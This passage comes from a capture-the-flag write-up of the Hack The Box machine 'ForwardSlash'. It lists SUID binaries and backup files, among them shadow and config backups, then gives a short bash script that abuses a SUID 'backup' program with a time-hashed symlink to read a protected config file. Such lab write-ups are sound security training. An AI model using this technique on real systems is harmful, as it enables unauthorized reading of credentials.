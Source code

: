 ```bash
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-r-sr-xr-x 1 pain pain 13384 Mar  6 10:06 /usr/bin/backup
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-sr-x 1 root root 109432 Oct 30  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-e
...
-e [-] Location and Permissions (if accessible) of .bak file(s):
-rw------- 1 root root 730 Mar 17 20:13 /var/backups/group.bak
-rw------- 1 root shadow 604 Mar 17 20:13 /var/backups/gshadow.bak
-rw------- 1 root shadow 1174 Mar  6 14:21 /var/backups/shadow.bak
-rw------- 1 root root 1660 Mar  5 14:46 /var/backups/passwd.bak
-rw------- 1 pain pain 526 Jun 21  2019 /var/backups/config.php.bak
-e
...
```

## exploit

In /usr/bin/ is a backup executable which is used with a suid bit. 

The other interesting file is /var/backups/config.php.bak, which is only accessible by the user pain.

Let's execute the backup executable, maybe it leads to something.

![backup](../../../../assets/images/hackthebox/forwardslash/10_backup.png)

The hash in the error message has 32 digests, so it seems to be md5. Also the time is displayed.
Let's try to recreate the hash without a linebreak.

```bash
chiv@forwardslash:~$ echo -n 14:44:22 | md5sum
399b9c288404e46fce5d456f84f3e4fc  -
```

That was successful, but since I don't want to wait for the exact time, I build a small script.

```bash
#!/bin/bash
ln -s /var/backups/config.php.bak $(echo -n $(date +%H:%M:%S) | md5sum | awk '{print $1}')
backup
```

![getPassword](../../../../assets/images/hackthebox/forwardslash/11_getPassword.png)
